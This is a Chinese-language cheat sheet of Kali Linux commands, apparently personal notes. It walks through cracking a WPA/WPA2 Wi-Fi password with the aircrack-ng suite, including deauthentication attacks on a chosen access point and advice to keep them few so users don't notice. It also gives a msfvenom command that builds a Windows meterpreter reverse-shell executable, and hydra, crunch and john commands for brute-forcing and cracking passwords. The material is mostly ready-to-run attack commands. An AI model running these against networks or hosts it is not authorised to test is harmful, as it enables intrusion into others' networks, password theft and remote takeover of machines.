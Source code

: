 # Kali Linux Tools

## Aircrack-ng

https://www.itread01.com/content/1543852627.html

* ifconfig 確認是否有 `wlan0`

* 啟用網卡監聽模式
    * `airmon-ng start wlan0`

* 查看現在網卡抓到的AP
    * `airodump-ng wlan0mon`

* 找一台喜歡的，記下BSSID以及channel，開始收集封包
    !> **Important** 建議data收集到破萬，才有夠多參考價值
    * `airodump-ng -w <path> -c <channel> --bssid <bssid> wlan0mon`

* 開啟另一個console，不要打斷它收集封包，同時收集到我們想要的資訊，(網路上叫他握手包)(4-way handshake)
    * 原理是，給連接到wifi的一個設備發送一個`deauth（反認證）`包，讓那個設備斷開wifi，隨後它自然會再次連接wifi
    * `-0` 的攻擊模式是發送阻斷訊號，讓使用者誤以為與 AP 連線中斷而重新發出授權請求，由 airodump-ng 進而擷取需要的 arp 封包 （參數 10 代表攻擊10次，請斟酌數量，大量攻擊會讓使用者查覺到網路異常)
    * `-a` 為要攻擊的 AP mac
    * `aireplay-ng -0 10 -a AE:37:43:C8:2F:FB wlan0mon`

* 同時確認收集封包的console，有沒有握手包
    * ![](https://i.imgur.com/fLO8CRa.png)


* 封包收集完後，可以把監聽模式關掉
    * `airmon-ng stop wlan0mon`

* 封包收集完後開始破解
    * `aircrack-ng -a2 -b AE:37:43:C8:2F:FB -w /usr/share/wordlists/rockyou.txt ~/*.cap`

* 成功圖如下
   * ![](https://i.imgur.com/gl2qnZt.png)


* 參考自
    * https://shazi.info/%E4%BD%BF%E7%94%A8-aircrack-ng-%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3-wpawpa2-%E5%8A%A0%E5%AF%86-wifi-%E5%AF%86%E7%A2%BC/
    * http://topspeedsnail.com/kali-linux-crack-wifi-wpa/


---

## Metasploit


### Search Exploit

```bash
searchsploit <keyword>
```

### practice
- `ctfthemes.appspot.com`

### windows reverse shell製作

```bash=
msfvenom -p windows/meterpreter/reverse_tcp lhost=<host> lport=<port> -f exe -o /tmp/my_payload.exe
```

## Password

### 生密碼包

#### Crunch
* `crunch 7 8 123abc,./ -o ps.txt `

### 破密

#### hydra

```
hydra -L user.txt -P pass.txt <ip> <protocol>
```

#### john

* 簡單模式
```
john --format=<hashmode> <file>
//sha512crypt
john -show <file>
```

* File
```
john --wordlist=<密碼檔> <file> --format=<hashmode>
```